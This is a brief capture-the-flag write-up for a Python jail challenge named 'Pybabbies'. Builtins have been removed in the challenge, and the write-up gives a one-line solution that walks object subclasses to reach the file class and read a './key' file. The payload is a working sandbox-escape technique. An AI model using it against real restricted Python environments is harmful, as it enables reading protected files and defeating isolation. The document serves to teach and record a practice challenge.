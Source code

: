 # Pybabbies (Exploitation 200)
Another python jail problem. We can see from the source code that they removed all the builtins.

The solution:
```
print([x for x in ().__class__.__bases__[0].__subclasses__() if x.__name__ == 'file'][0]('./key').read())
```
